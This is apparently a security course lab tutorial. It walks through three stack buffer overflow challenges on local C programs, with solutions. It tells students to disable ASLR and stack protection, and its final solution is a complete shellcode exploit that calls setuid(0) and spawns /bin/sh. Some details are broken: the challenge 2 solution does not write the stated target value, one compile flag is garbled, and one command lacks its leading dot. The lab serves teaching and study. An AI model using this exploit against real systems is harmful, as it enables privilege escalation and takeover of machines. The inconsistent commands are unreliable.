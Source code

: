 # Week 2 - Malware and Buffer Overflow
In this tutorial you'll work on exploiting a buffer overflow vulnerability. This attack can crash a legitimate process, give the attacker access to confidential data or even give the attacker a full control over a machine (see Challange3). 

## Setup
Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`.

## Challenge 1
Your goal here is to modify a variable in the code even though the code doesn't contain any logic writing to this variable. To do that

* Analyze the code in `challenge1.c`

* Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

* Run the file with an input that will change the value of `do_not_modify` to something other than 0.

* Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

* Run the program several times and observe the pointer values.

* Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

* Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

Solution:
```
./challenge1 aaaaaaaaa
```

## Challenge 2

* Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

* Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

* Run the file with an input that will change the value of modified to `0x0d0a0d0a`. 

Solution:
```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3
Your goal is to place a shell code in the buffer of an application and get access to the host machine (similarely to what we did during the lecture).
* Analyze the code of `challenge3.c`. 
* Compile it using: `gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g`
* Make the application execute the shell code below:

```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Solution:
```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
